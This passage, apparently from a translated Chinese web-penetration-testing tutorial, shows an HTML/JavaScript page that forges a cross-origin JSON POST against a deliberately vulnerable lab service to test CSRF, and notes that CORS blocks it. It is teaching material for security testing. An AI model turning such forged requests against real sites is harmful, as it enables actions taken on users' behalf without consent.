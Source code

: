 ![](img/d94222fe-47f6-40d7-a6cc-9c4532a683c9.png)

1.  假设我们想对该请求进行 CSRF 攻击。如果我们希望 HTML 页面以 JSON 格式发出请求，就不能使用 HTML 表单；我们需要使用 JavaScript。创建一个 HTML 文件，例如 `CORS-json-request.html`，并使用以下代码：

```
&lt;html>
&lt;script>
function submit_request()
{
  xmlhttp=new XMLHttpRequest();
  xmlhttp.open("POST","http://192.168.56.11/dvwebservices/vulnerabilities/cors/server.php", true);
  xmlhttp.onreadystatechange=function() 
  {
    if(xmlhttp.readyState==4 && xmlhttp.status == 200 )
    {
      document.write(xmlhttp.responseText);
    }
  }
  xmlhttp.send('{"searchterm":"secretword:one"}');
}
&lt;/script>
&lt;body>
&lt;input type="button" onclick="submit_request()" value="Submit request">
&lt;/body>
&lt;/html>
```

1.  上述代码复制了 `client.php` 发出的请求。在浏览器中打开它并点击“提交请求”。什么也不会发生，接下来的截图显示了原因：

![](img/a9464e57-67c5-457b-9ecf-a666b8ef5c32.png)